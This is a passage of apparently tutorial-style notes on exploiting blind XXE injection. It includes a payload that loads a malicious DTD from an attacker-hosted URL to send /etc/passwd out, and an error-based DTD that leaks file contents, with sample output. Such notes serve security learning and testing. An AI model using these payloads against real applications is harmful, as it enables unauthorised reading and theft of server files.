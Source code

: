   2. Defines an XML parameter called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
  3. Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
  4. Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.
- The attacker must then host malicious DTD on a system that they control, normally by loading it onto their own webserver.
- Eg the attacker must serve the malicious DTD at the following URL:
```
http://website.com/malicious.dtd
```
- Finally the attacker must submit the following XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://website.com/malicious.dtd"> %xxe; ]>
```
- This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD causing the XML parser to fetch the external DTD from the attacker's server and interpret it inline.
- The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.
- XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the `FTP protocol` instead of HTTP.
- Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead. 

### Exploiting blind XXE to retrieve data via error messages.
- Trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve.
- This will be effective if the application returns the resulting error message within its response.
- You can trigger an XML parsing message containing the contents of the `/etc/passwd` file using a malicious external DTD as:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
- This DTD carries out the following steps:
  1. Defines an XML parameter entity called `file` containing the contents of the `etc/passwd` file.
  2. Defines an XML parameter entity called `eval` containing a dynamic declaration of another XML parameter entity called `error` which will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
  3. Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
  4. Uses the `error` entity so that its value evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.
- Invoking the malicious external DTD will result in an error message as below:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
... 
```
### Exploiting blind XXE by repurposing a local DTD
- The preceding works well with an external DTD but won't work with an internal DTD that is fully specified withon the `DOCTYPE` element because it involves using an XML parameter entity within the definition of another parameter entity.
- One can exfiltrate data via an out-of-band connecntion (when out-of-band interactions are blocked) and you can't load an external DTD from a remote server.